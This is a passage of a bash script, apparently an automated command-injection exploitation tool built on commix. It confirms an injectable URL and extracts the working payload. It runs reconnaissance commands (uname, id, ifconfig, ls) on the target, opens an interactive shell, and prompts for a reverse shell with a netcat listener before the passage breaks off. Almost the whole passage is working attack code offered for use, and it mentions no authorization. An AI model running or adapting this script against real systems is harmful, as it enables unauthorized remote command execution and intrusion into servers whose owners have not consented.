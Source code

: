 ```bash
          run_commix "Custom Delimiters ($prefix$suffix)" "python3 /usr/bin/commix -u \"$TARGET_URL\" --prefix=\"$prefix\" --suffix=\"$suffix\" --batch --techniques=$TECHNIQUES --output-dir=$OUTPUT_DIR"
          
          if grep -q "Payload: " "$OUTPUT_DIR/Custom_Delimiters_${prefix}${suffix}.txt"; then
            echo "[+] Found vulnerability using $prefix$suffix delimiters!"
            break 2
          fi
        done
      done
    fi
  fi
fi

# Final check if vulnerable
if ! grep -q "Payload: " "$OUTPUT_DIR"/*.txt; then
  echo "[-] Target does not appear to be vulnerable to command injection. Exiting."
  exit 0
fi

# Phase 2: Environment Information Gathering
echo "[+] Gathering environment information"

# Extract the working payload from the successful test
PAYLOAD=$(grep -m 1 "Payload: " "$OUTPUT_DIR"/*.txt | sed 's/.*Payload: //')
VULNERABLE_URL=$(grep -m 1 "URL: " "$OUTPUT_DIR"/*.txt | sed 's/.*URL: //')
TECHNIQUE=$(grep -m 1 "Technique: " "$OUTPUT_DIR"/*.txt | sed 's/.*Technique: //')

echo "[*] Using payload: $PAYLOAD"
echo "[*] Vulnerable URL: $VULNERABLE_URL"
echo "[*] Effective technique: $TECHNIQUE"

# Gather environment information
run_commix "OS Information" "python3 /usr/bin/commix -u \"$VULNERABLE_URL\" --os-cmd=\"uname -a\" --batch --techniques=$TECHNIQUE --output-dir=$OUTPUT_DIR"
run_commix "User Information" "python3 /usr/bin/commix -u \"$VULNERABLE_URL\" --os-cmd=\"id\" --batch --techniques=$TECHNIQUE --output-dir=$OUTPUT_DIR"
run_commix "Network Information" "python3 /usr/bin/commix -u \"$VULNERABLE_URL\" --os-cmd=\"ifconfig || ip addr\" --batch --techniques=$TECHNIQUE --output-dir=$OUTPUT_DIR"
run_commix "Directory Information" "python3 /usr/bin/commix -u \"$VULNERABLE_URL\" --os-cmd=\"pwd; ls -la\" --batch --techniques=$TECHNIQUE --output-dir=$OUTPUT_DIR"

# Phase 3: Interactive Shell (if viable)
if [[ "$TECHNIQUE" != *"blind"* ]]; then
  echo "[+] Starting interactive shell session"
  echo "[*] Press Ctrl+C to exit the shell when done"
  echo "[*] Command results will be saved to $OUTPUT_DIR/Interactive_Shell.txt"
  run_commix "Interactive Shell" "python3 /usr/bin/commix -u \"$VULNERABLE_URL\" --shell --batch --techniques=$TECHNIQUE --output-dir=$OUTPUT_DIR"
else
  echo "[-] Interactive shell not recommended for blind injection. Try reverse shell instead."
fi

# Phase 4: Attempt Reverse Shell
echo "[+] Would you like to attempt a reverse shell? (y/n)"
read -p "> " REVERSE_SHELL

if [[ "$REVERSE_SHELL" == "y" || "$REVERSE_SHELL" == "Y" ]]; then
  echo "[*] Setting up listener on $LISTEN_IP:$LISTEN_PORT"
  echo "[*] Start a netcat listener in another terminal with: nc -lvnp $LISTEN_PORT"
  echo "[*] Press Enter when your listener is ready..."
  read
  
```